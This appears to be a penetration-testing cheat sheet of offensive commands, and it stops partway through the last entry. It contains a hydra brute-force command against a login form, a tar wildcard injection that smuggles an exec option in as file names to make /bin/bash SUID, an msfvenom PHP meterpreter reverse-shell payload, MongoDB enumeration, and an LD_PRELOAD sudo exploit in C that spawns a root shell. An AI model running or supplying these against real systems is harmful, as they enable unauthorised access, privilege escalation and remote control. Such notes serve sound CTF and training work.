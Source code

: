 ```console
hydra - v -l admin -P /usr/share/wordlist/rockyou.txt <target_IP> http-post-form "/Account/login.aspx:__VIEWSTATE=i7MQNEYxCpsuWpX%2FARpaWiNDZbLxzhra5gcXSs0jSsiEg18uQztWWGsZy4ofbcUHTEqDrAnDifUKYN%2FCBdKAokaVydVNCiAwGHV4kPsIPzXP3xuFzYfOcCIDtBW0F7mNfw2AT%2BVl2rNLN4Cr8Ur9ReRZUq7%2BzU8yJjvGQcuanNcRj05P&__EVENTVALIDATION=wxH6yuXUPcWQy8HL%2F3WLAm2XyiAzbFlRZrMVEfPOK8DEZRYsARugOtVfq0q8lMKCsGX7%2BF0CdBZGVhwG97qfj%2FqoPwGgR9Hivgq8btr6BxRC28PmKpSu%2BlSYF36OVMJbTQ%2BmYqHRNXE44DKvaSrQ%2F9Ki%2F%2FQ%2FUC%2FW6fIzV7I7M5BQFijq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

# To abuse wildcard * in cronjobs
The below code creates a shell.sh that would be executed abusing a cronjob and setting the SUID bit on the binary /bin/bash
```
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1
```

# Php meterpreter using msfvenom
```console
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

# MongoDB
Start by typing mongo and then type help to look for the options, see below an example
```
mongo
show dbs
use backup
show collections
db.collections.find()
db.user.find()

```

# sudo -l 
If you see the following append to the PATH:
```console
env_keep+=LD_PRELOAD
```
and have sudo binary like:
```console
(ALL : ALL) NOPASSWD: <binary>
```
Then run the following exploit.c file:
```console
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
Compile as follows:
```console
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```
Run it as follows: